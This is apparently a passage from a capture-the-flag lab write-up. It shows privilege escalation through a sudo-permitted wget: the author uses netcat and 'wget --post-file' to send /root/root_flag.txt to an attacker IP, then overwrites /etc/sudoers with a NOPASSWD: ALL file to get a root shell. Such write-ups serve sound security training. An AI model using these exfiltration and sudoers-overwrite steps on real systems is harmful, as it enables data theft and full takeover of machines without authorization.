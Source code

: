 GTFO method was not working so i use this other method and added here

First we start a listener on port 8000, which we can do by running the following:

> ```  
> ┌[parrot]─[02:14–02/07]─[/home/glack/Downloads]  
> └╼glack$nc -lnvp 8000
> 
> ```

And we post the contents of root flag using

> ```  
> sudo /usr/bin/wget — post-file=/root/root_flag.txt 10.17.24.189:8000
> 
> ```

and we get it easily

![](https://miro.medium.com/v2/resize:fit:458/1*SA-Ch7ZAju58Jz-d64J81A.png)


We create a file with the content named “sudoers”

> ```
> 
> #jessie ALL=(root) NOPASSWD: /usr/bin/wget  
> jessie ALL=(ALL) NOPASSWD: ALL
> 
> ```

Turn our machine into a web server using

> ```  
> ┌[parrot]─[02:22–02/07]─[/home/glack/Desktop/THM/wgel]  
> └╼glack$sudo python3 -m http.server  
> ```

We move to the /etc directory and download our file there, now this replaces the existing “sudoers” file with the one we downloaded.

We use the below commands

> ```
> 
> jessie@CorpOne:~/Documents$ cd /etc
> 
> jessie@CorpOne:/etc$ sudo /usr/bin/wget 10.17.24.189:8000/sudoers — output-document=sudoers  
> ```

And we can confirm this by using

> ```  
> jessie@CorpOne:/etc$ sudo -l  
> User jessie may run the following commands on CorpOne:  
> (ALL) NOPASSWD: ALL  
> ```

And we easily get the root shell

![](https://miro.medium.com/v2/resize:fit:425/1*48cm29TMamXhCB5Jwd4kpw.png)